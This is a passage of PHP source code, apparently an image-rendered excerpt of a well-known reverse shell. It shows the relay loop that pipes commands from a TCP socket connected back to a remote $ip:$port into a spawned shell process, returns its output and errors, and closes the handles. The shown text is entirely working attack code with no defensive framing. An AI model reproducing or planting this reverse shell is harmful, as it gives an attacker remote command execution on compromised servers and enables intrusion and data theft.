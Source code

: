 ```php
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}
```